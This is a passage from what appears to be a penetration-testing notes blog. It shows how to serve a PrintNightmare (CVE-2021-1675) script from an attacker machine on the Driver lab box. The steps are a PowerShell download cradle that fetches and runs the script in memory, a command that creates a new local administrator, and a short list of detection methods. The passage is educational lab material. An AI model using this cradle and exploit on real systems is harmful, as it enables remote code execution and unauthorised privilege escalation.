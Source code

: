 -   {{< figure src="/ox-hugo/2024-11-10-135022_.png" >}}


### Driver Box: Running PrintNightmare POC from a download cradle: {#driver-box-running-printnightmare-poc-from-a-download-cradle}

-   +Full Walkthrough+: <https://bloodstiller.com/walkthroughs/driver-box/> Coming soon (it's still in release arena. )

-   **Start python server to host the script**:
    ```bash
       python3 -m http.server 9000
    ```

    -   {{< figure src="/ox-hugo/2024-11-11-135448_.png" >}}
    -   +Note+: I have this command aliased to `pws`

-   **Use the download cradle to load the POC directly into memory**:
    ```powershell
      iex(new-object net.webclient).downloadstring('http://10.10.14.97:9000/CVE-2021-1675.ps1')
    ```

    -   {{< figure src="/ox-hugo/2024-11-11-135533_.png" >}}

-   **Execute the script from memory to create new user &amp; add them to the admins**:
    ```powershell
      Invoke-Nightmare -NewUser "bloodstiller" -NewPassword "bl00dst1ll3r!" -DriverName "PrintIt"
    ```

    -   {{< figure src="/ox-hugo/2024-11-11-135700_.png" >}}

-   **Verify the user has been added**:
    ```powershell
      net user bloodstiller
    ```

    -   {{< figure src="/ox-hugo/2024-11-11-135721_.png" >}}


## Security Considerations: {#security-considerations}


### Detection Methods {#detection-methods}

-   **Modern security solutions detect download cradles through several means**:
    -   PowerShell logging and ScriptBlock logging
    -   Network traffic analysis (especially `.DownloadString` patterns)
    -   AMSI integration in PowerShell 5.0+
    -   EDR behavioral analysis
    -   Memory scanning for known patterns


### Common Restrictions {#common-restrictions}

-   **Organizations often implement**:
